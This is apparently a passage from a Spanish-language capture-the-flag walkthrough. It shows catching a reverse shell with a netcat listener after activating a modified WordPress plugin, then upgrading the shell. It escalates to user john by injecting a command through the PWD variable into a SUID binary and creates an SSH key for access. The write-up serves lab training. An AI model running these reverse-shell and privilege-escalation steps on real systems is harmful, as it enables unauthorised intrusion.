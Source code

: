 Una vez guardado los cambios, nos vamos a `Plugins` y le damos a `Activar` el `plugin`, estando a la escucha...

```shell
nc -lvnp <PORT>
```

Ya tendriamos una shell la cual vamos a sanitizar...

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Si nos vamos a la carpeta de `Doe` ubicada en `/home/doe/` veremos un archivo llamado `noteFromAdmin` que pone lo siguiente...

```
Hey Doe, 

Remember to not delete any critical files as you did last time!
```

Y vemos tambien el siguiente archivo que tiene el permiso `SUID` del usuario `john` por lo que si lo ejecutamos, lo estariamos haciendo como ese usuario...

```
-rwsr-xr-x 1 john john 8632 Dec  4  2019 itseasy
```

Al ver esto, lo que vamos hacer es lo siguiente...

```shell
export PWD=\$\(/bin/bash\)
```

```shell
./itseasy
```

Con esto ya seriamos el usuario `john`...

Veremos que no podemos casi hacer ningun comando, por lo que nos crearemos una `id_rsa` con este usuario para meternos por `ssh`...

```shell
ssh-keygen -t rsa -b 4096
```
